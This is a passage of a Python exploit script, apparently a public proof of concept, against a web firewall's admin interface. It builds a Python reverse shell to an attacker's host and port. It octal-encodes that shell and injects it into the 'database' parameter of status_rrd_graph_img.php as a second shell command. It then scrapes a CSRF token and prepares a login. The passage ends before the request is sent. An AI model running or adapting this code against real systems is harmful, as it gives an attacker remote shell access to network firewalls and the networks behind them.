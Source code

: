 ```43560.py
password = args.password


# command to be converted into octal
command = """
python -c 'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("%s",%s));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'
""" % (lhost, lport)


payload = ""

# encode payload in octal
for char in command:
	payload += ("\\" + oct(ord(char)).lstrip("0o"))

login_url = 'https://' + rhost + '/index.php'
exploit_url = "https://" + rhost + "/status_rrd_graph_img.php?database=queues;"+"printf+" + "'" + payload + "'|sh"

headers = [
	('User-Agent','Mozilla/5.0 (X11; Linux i686; rv:52.0) Gecko/20100101 Firefox/52.0'),
	('Accept', 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8'),
	('Accept-Language', 'en-US,en;q=0.5'),
	('Referer',login_url),
	('Connection', 'close'),
	('Upgrade-Insecure-Requests', '1'),
	('Content-Type', 'application/x-www-form-urlencoded')
]

# probably not necessary but did it anyways
headers = collections.OrderedDict(headers)

# Disable insecure https connection warning
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

client = requests.session()

# try to get the login page and grab the csrf token
try:
	login_page = client.get(login_url, verify=False)

	index = login_page.text.find("csrfMagicToken")
	csrf_token = login_page.text[index:index+128].split('"')[-1]

except:
	print("Could not connect to host!")
	exit()

# format login variables and data
if csrf_token:
	print("CSRF token obtained")
	login_data = [('__csrf_magic',csrf_token), ('usernamefld',username), ('passwordfld',password), ('login','Login') ]
	login_data = collections.OrderedDict(login_data)
	encoded_data = urllib.parse.urlencode(login_data)

# POST login request with data, cookies and header
```